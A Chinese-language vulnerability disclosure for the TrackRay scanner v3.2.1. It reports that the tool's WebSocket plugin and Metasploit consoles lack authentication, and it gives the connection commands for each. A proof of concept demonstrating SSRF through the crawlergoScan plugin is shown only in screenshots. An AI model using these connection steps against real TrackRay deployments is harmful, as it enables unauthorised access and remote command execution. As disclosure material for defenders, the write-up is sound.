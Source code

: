 # 溯光（TrackRay）3.2.1 未授权RCE

## Target & Version
项目地址：https://github.com/iSafeBlue/TrackRay  

版本：v3.2.1

## Background
扫github的时候看到的这个项目，虽然有900+个 stars，感觉不咋火。
其中首页注意中的一句话吸引了我  
![-w710](media/15909787372321/15911725266740.jpg)

本着日行一善的原则，决定帮它火一把。

## Exp
TrackRay的两个交互式控制台，用WebSocket实现
![-w1411](media/15909787372321/15911724359679.jpg)
WebSocket未做任何授权认证，所以这两个console就是白给。利用方式很简单
exp：
```
# 安装websockets
pip3 install websockets
# 连接 plugin console
python3 -m websockets ws://[ip]:[port]/plugin.ws
# 连接 msf consle
python3 -m websockets ws://[ip]:[port]/msf.ws
```

## Poc
由于我的msfrpcd始终没有配置成功，这里就懒得折腾，演示一个利用 plugin console 实现未授权ssrf的效果，rce也是一样，不过连的是 msf console。  

连接 plugin consle
![-w1120](media/15909787372321/15911181426135.jpg)

寻找所有可用插件，使用默认提供的crawlergoScan
![-w1440](media/15909787372321/15911181721229.jpg)

ssrf
![-w1440](media/15909787372321/15911182142090.jpg)

![-w964](media/15909787372321/15911182371403.jpg)


